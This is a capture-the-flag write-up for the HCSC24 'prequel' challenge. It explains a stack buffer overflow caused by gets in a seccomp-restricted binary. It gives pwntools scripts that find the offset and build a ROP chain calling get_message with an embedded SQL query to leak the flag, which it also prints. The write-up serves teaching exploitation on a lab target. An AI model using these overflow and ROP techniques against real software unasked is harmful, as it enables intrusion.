






# Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages_debug.db` We will need to copy this to `messages.db` because the binary will read this file.

## Binary

We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place, and there isn't a memory segment that is writeable and executable at the same time. We don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary


The binary asks for a name, does an sql query and prints out the result.

## Decompiling


When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.


As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability


The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address. The stack canary protection written by the checksec is not true for the main method.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequel")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
Fortunately, our job is quite easy because there is a function that uses the string `SELECT flag FROM flag LIMIT ?;`. We can borrow this string's memory address for our own purposes and construct a rop chain to call the method `get_message` with this query. The function takes another parameter that determines the amount of the returned records. There is a string "101" called version at the memory address `0x5a1048`.



We only need a `pop rdi` gadget now to set the first parameter in a function call, but luckily there is a function called `mary_poppins` that contains this gadget at the following memory address `0x401ff2`. We can also find a `pop rsi` gadget to set the second parameter at `0x401ff4`. We can also use the tool `ROPgadget` if we can't find these gadgets by hand.

```python
from pwn import *

context.binary = elf = ELF("./prequel")

p = process()

offset = 72
POP_RDI = 0x401FF2
POP_RSI = 0x401FF4
FLAG_QUERY = 0x5A10F8 # address of the string "SELECT flag FROM flag LIMIT ?;"
VERSION_STRING = 0x5A1048 # address of the string "101"

payload = b"A" * 72 # padding
payload += p64(POP_RDI)
payload += p64(FLAG_QUERY)
payload += p64(POP_RSI)
payload += p64(VERSION_STRING)
payload += p64(elf.sym["get_message"]) # calling get_message(query, parameter) to execute get query in the sql database

p.sendline(payload)
p.recvuntil(b"Fetching your message...\n")
flag = p.recvuntil(b"}").replace(b"\n", b"").decode() # delete line breaks

log.success("Got flag: " + flag)
```

Running the exploit on the remote server yields the following flag: `HCSC24{wh3n_y0ur_str1ngs_4r3_thE_M0stpr3c1ous_g4dG3t5}`